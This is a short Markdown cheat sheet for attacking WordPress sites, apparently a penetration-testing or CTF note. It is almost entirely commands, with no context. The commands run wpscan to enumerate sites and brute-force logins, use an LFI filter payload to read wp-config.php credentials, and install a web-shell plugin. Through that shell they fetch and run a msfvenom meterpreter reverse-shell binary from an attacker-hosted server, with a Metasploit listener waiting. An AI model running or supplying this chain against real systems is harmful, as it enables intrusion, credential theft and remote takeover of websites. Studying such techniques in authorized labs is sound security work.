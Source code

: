 # Wordpress

## Basic Enumeration

```bash
wpscan --url http://10.10.128.151
```

## Super Scan

It will try to enumerate many things and it might take long.

```bash
wpscan --url http://10.10.128.151/ --enumerate ap,at,cb,dbe,u
```

| **Argument** | **Description** |
| --- | --- |
| -ap | All Plugins |
| -p | Plugins |
| -vp | Vulnerable Plugins |
| -u | Users |
| -vt | Vulnerable Themes |
| -at | All themes |
| -cb | Config Backup |
| --plugins-detection mixed | Plugin detection mode. |
| --plugins-detection passive | Plugin detection mode. |
| --plugins-detection aggresive | Plugin detection mode. Bruteforce |

## Enumerate users

```bash
wpscan --url http://10.10.128.151/ -e u
```

## Bruteforce login with a user and a password list

```bash
wpscan --url http://10.10.128.151 --passwords fsocity.dic -U elliot
```

## Found LFI ?

Try to read Wordpress config file:

```bash
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```
More paths to test [here](https://github.com/D35m0nd142/LFISuite/blob/master/pathtotest.txt).

## Install Malicious Plugin - WebShell

```bash
# Wordpress Web Shell - Install as Plugin
/usr/share/seclists/Web-Shells/WordPress/plugin-shell.php

## Pack the plugin
$ sudo zip plugin-shell plugin-shell.php

## Upload the shell
Add Plugins
Upload Plugin
Browse
Select the zip file
Install Now

## Run Commands
$ curl http://10.10.10.110/wp-content/plugins/plugin-shell.php?cmd=whoami

## Get a reverse shell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.10 LPORT=443 -f elf > shell.elf
$ sudo python3 -m http.server 80
$ curl http://10.10.10.110/wp-content/plugins/plugin-shell.php?cmd=wget%20http://192.168.100.10/shell.elf

## Start a listener
$ use exploit/multi/handler
$ set PAYLOAD linux/x86/meterpreter/reverse_tcp (same as the MSFVENOM)
$ set LPORT 443
$ set LHOST tun0
$ run

## Make it executable (chmod +x shell.elf)
$ curl http://10.10.10.110/wp-content/plugins/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf

## Trigger the exploit
$ curl http://10.10.10.110/wp-content/plugins/plugin-shell.php?cmd=./shell.elf
```